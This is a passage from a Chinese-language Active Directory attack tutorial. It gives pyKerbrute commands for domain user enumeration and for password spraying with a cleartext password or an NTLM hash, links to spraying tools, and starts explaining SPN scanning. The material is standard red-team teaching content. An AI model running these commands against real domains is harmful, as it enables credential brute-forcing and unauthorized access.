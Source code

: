 #### PY版本 pyKerbrute

>   [pyKerbrute](https://github.com/3gstudent/pyKerbrute)

不演示了，爆破用户：

```
python2 EnumADUser.py 192.168.188.100 ghost.com user.txt tcp
python2 EnumADUser.py 192.168.188.100 ghost.com user.txt udp
```

口令爆破：

```
#明文
python2 ADPwdSpray.py 192.168.188.100 ghost.com user.txt clearpassword Admin123! tcp

#hash
python2 ADPwdSpray.py 192.168.188.100 ghost.com user.txt ntlmhash aaaaaaaaaaaaaaaaaaaa(hash) udp
```



参考：

>   ```
>   https://mp.weixin.qq.com/s/-V1gEpdsUExwU5Fza2YzrA
>   https://mp.weixin.qq.com/s/vYeR9FDRUfN2ZczmF68vZQ
>   https://mp.weixin.qq.com/s?__biz=MzI0MDY1MDU4MQ==&mid=2247496592&idx=2&sn=3805d213ba1013e320f48169516c2ca3&chksm=e91523aade62aabc21ebca36a5216f63ec0d4c61e3dd1b4632c10adbb85dfde07e6897897fa5&scene=21#wechat_redirect
>   https://blog.csdn.net/weixin_41598660/article/details/109152077
>   https://xz.aliyun.com/t/7724#toc-4
>   https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
>   http://hackergu.com/ad-information-search-powerview/
>   https://www.freebuf.com/news/173366.html
>   https://www.cnblogs.com/mrhonest/p/13372203.html
>   https://payloads.online/scripts/Invoke-DomainPasswordSpray.txt
>   https://github.com/dafthack/DomainPasswordSpray
>   https://blog.csdn.net/qq_36119192/article/details/105088239
>   https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe
>   ```

## SPN 扫描

>   SPN全程 Service Principal Names，是服务器上所运行服务的唯一标识，每个使用kerberos认证的服务都需要一个SPN。
>   SPN分为两种，一种注册在AD的机器账户下(Computers)下，另一种注册在域用户账户(Users)下
>   当一个服务的权限为Local System或Network Service，则SPN注册在机器账户(Computers)下
>   当一个服务的权限为一个域用户，则SPN注册在域用户账户(Users)下

SPN扫描能让我们更快的发现在域内运行的服务，并且很难被发现

###  SPN格式

```
serviceclass/host:port/servicename
```
